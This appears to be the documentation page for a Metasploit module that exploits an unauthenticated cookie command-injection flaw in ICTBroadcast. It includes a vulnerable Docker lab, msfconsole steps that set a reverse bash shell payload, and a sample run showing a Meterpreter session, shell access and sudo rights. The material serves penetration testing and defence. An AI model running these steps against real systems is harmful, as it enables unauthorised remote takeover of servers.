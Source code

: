 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated remote code
execution (RCE)** vulnerability in **ICTBroadcast**.
The vulnerability exists due to improper handling of session
cookies in the authentication mechanism. An attacker can inject arbitrary system commands by modifying the session cookie.

The issue affects **various versions of ICTBroadcast**, but
specific impacted releases are currently unknown. The vulnerability allows an attacker to execute shell commands **without authentication**.

## Options

None

## Testing

To test the exploit, spin up a vulnerable ICTBroadcast instance with Docker.

```yaml
services:
  db:
    image: mariadb:10.6
    container_name: ictmysql
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root     
      MARIADB_ROOT_HOST: '%'       
      MYSQL_DATABASE: ictbroadcast
      MYSQL_USER: ictuser
      MYSQL_PASSWORD: ictpass
    volumes:
      - db_data:/var/lib/mysql
    ports:
      - "3306:3306"

  ictbroadcast:
    image: chocapikk/ictbroadcast-cve-2025-2611:latest
    container_name: ictbroadcast
    depends_on:
      - db
    ports:
      - "80:80"
      - "443:443"
    command: >
      bash -c "
        composer --working-dir=/usr require stefangabos/zebra_pagination &&
        /usr/sbin/httpd -k start &&
        /usr/sbin/php-fpm &&
        tail -f /dev/null
      "

volumes:
  db_data:
```

1. Start the stack:

```bash
docker compose up -d
```

2. Verify that the login page is reachable at **`http://localhost/login.php`**.
   The application should issue a valid session cookie on first visit.

3. Run the Metasploit module.
   The exploit will automatically harvest the session cookie (format may vary across deployments)
   and leverage it to execute arbitrary commands via the vulnerable endpoint.

## Verification Steps
1. Start **Metasploit Framework**:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/ictbroadcast_unauth_cookie
```

3. Set the **target IP address**:
```bash
set RHOSTS <TARGET_IP>
```

4. Set the **payload** for command execution:
```bash
set PAYLOAD cmd/unix/reverse_bash
```

5. Configure the listener:
```bash
set LHOST <YOUR_IP>
set LPORT 4444
```

6. Check if the target is vulnerable:
```bash
check
```

7. Exploit the target:
```bash
exploit
```

## Scenarios

### Unauthenticated Command Execution
**Note**: Ensure that the target is vulnerable using the `check` command before running the exploit.

**Note**: The session cookie is retrieved dynamically and modified for command injection.

```bash
msf6 exploit(linux/http/ictbroadcast_unauth_cookie) > run http://lab
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking ICTBroadcast via JS fingerprints
[+] JS fingerprint found; performing timing tests
[*] Retrieving session cookies dynamically
[*] Found cookies: BROADCAST=49b067ae1fdfbcab3d73caa1c7e6d75a
[+] The target is vulnerable. Injected RCE (slept 4s)
[*] Sending stage (3090404 bytes) to 192.168.128.3
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.128.3:53178) at 2025-08-04 17:50:33 +0200

meterpreter > sysinfo 
Computer     : 192.168.128.3
OS           : Red Hat 8.10 (Linux 6.15.8-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > shell
Process 877 created.
Channel 1 created.
SHELL=/bin/bash script -q /dev/null
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for asterisk on f7681361bd20:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User asterisk may run the following commands on f7681361bd20:
    (root) NOPASSWD: /usr/sbin/asterisk
    (root) NOPASSWD: /etc/init.d/asterisk
    (root) NOPASSWD: /etc/init.d/httpd
    (root) NOPASSWD: /etc/init.d/mysqld
    (root) NOPASSWD: /etc/init.d/kannel
    (root) NOPASSWD: /usr/sbin/ntpdate
    (root) NOPASSWD: /usr/sbin/rabbitmqctl
    (root) NOPASSWD: /bin/systemctl
bash-4.4$ 
```
